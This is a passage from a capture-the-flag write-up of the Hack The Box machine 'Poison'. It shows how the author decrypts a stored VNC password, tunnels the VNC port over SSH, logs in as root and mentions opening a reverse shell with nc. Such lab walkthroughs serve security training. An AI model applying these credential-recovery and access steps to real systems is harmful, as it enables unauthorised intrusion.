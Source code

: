 However, we are going to need a password! Remember the `secret` file we found? Turns out it contains the encrypted version of the `VNC` password! We can use [this](https://github.com/jeroennijhof/vncpwd) to help us retrieve the password.

```bash
$ ./vncpwd ../secret
Password: VNCP@$$!
```

We could also specify the `secret` file when we `VNC` in too! Now, we can move on to making the `VNC` port accessible to us by `SSH` portforwarding.

```bash
charix@Poison:~ % ssh -L 10.10.10.84:37777:127.0.0.1:5901 charix@127.0.0.1
Password for charix@Poison:
```

We can `VNC` in with the `secret` file or we could enter the `VNC` password we found.

```bash
$ vncviewer -passwd secret poison.htb::37777  
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
...
```

![](/assets/images/poison4.png)

Copying out the flag was a challenge, so I switched to `sh` shell and started a reverse shell with `nc`.

![](/assets/images/poison5.png)

# root.txt

The root flag is in `root`'s home directory.

```bash
cat root.txt
716dXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


### Rooted ! Thank you for reading and look forward for more writeups and articles !